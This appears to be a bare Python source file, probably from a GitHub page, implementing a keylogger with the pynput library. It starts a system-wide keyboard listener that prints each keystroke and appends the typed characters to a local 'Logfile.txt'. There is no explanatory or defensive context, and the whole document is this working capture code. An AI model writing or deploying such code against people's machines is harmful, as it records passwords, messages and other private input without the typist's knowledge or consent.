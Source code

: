 from pynput import keyboard

def keypressed(key):
    print(str(key))
    with open("Logfile.txt", 'a') as logkey:
        try:
            char = key.char
            logkey.write(char)
        except: 
            print("error getting char")


if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keypressed)
    listener.start()
    input()
